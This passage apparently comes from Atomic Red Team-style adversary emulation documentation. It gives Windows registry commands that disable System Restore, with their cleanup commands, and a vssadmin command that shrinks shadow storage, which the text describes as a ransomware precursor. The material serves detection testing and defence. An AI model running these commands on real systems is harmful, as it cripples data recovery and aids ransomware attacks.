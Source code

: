 **Supported Platforms:** Windows

**auto_generated_guid:** 66e647d1-8741-4e43-b7c1-334760c2047f

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore" /v "DisableConfig" /t "REG_DWORD" /d "1" /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore" /v "DisableSR" /t "REG_DWORD" /d "1" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore" /v "DisableConfig" /t "REG_DWORD" /d "1" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore" /v "DisableSR" /t "REG_DWORD" /d "1" /f
```

#### Cleanup Commands:

```cmd
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore" /v "DisableConfig" /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore" /v "DisableSR" /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore" /v "DisableConfig" /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore" /v "DisableSR" /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #10 - Windows - vssadmin Resize Shadowstorage Volume

Adversaries generally try to Resize Shadowstorage Volume using vssadmin.exe to avoid the shadow volumes being made again. This technique is typically found used by adversaries during a ransomware event and a precursor to deleting the shadowstorage.

**Supported Platforms:** Windows

**auto_generated_guid:** da558b07-69ae-41b9-b9d4-4d98154a7049

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
vssadmin resize shadowstorage /For=C: /On=C: /MaxSize=20%
```

<br/>
